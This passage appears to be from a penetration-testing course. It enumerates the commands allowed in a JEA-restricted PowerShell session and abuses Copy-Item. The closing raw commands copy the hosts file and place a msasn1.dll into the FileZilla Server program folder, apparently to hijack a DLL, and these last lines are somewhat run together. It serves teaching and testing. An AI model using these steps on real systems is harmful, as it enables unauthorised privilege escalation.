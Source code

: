 > Listing 32 - Running standard PowerShell commands as mary

Default commands that normally work in PowerShell do not work here. In order to connect via WinRM, we used the _-ConfigurationName_ flag, which is not standard for a typical WinRM connection. Additionally, based on the output, we are operating in a _NoLanguageMode_, which means that we are likely restricted by JEA.

If the _SessionType_ in JEA is set to _Default_, we would operate in _FullLanguage_ mode and be able to create our own functions. With a JEA configuration, this essentially means full administrative access to the target.

To learn what commands we have available, we can run **Get-Command**.

```
[files02]: PS>Get-Command

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Clear-Host
Function        Exit-PSSession
Function        Get-Command
Function        Get-FormatData
Function        Get-Help
Function        Measure-Object
Function        Out-Default
Function        Select-Object
Cmdlet          Copy-Item                                          3.0.0.0    Microsoft.PowerShell.Management
```

> Listing 33 - Checking which commands mary can run on FILES02

If we start a regular PowerShell prompt as _mary_ on _CLIENT02_, we'll notice a rather big difference:

```
PS C:\> Get-Command

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           Add-AppPackage                                     2.0.1.0    Appx
Alias           Add-AppPackageVolume                               2.0.1.0    Appx
Alias           Add-AppProvisionedPackage                          3.0        Dism
Alias           Add-ProvisionedAppPackage                          3.0        Dism
Alias           Add-ProvisionedAppSharedPackageContainer           3.0        Dism
Alias           Add-ProvisionedAppxPackage                         3.0        Dism
Alias           Add-ProvisioningPackage                            3.0        Provisioning
Alias           Add-TrustedProvisioningCertificate                 3.0        Provisioning
Alias           Apply-WindowsUnattend                              3.0        Dism
Alias           Disable-PhysicalDiskIndication                     2.0.0.0    Storage
Alias           Disable-PhysicalDiskIndication                     1.0.0.0    VMDirectStorage
Alias           Disable-StorageDiagnosticLog                       2.0.0.0    Storage
...
```


[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"